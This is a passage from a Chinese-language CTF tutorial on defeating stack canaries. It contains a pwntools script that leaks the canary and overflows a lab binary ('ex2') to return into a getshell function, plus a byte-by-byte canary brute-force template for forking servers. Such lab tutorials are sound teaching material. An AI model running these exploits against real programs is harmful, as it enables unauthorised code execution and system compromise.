 ``` c
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

首先通过覆盖 Canary 最后一个 `\x00` 字节来打印出 4 位的 Canary 之后，计算好偏移，将 Canary 填入到相应的溢出位置，实现 Ret 到 getshell 函数中

```python
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)

io.recv()

io.interactive()
```

### 逐字节爆破Canary

每次进程重启后的 Canary 不同，但是同一个进程中的不同线程的 Canary 是相同的，并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存，就是子进程会继承父进程的Canary。

当我们子进程由于Canary判断不正确导致程序crash（崩溃）后，父进程不会Crash。利用这样的特点，彻底逐个字节将Canary爆破出来，爆破模板如下：

```python
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)

```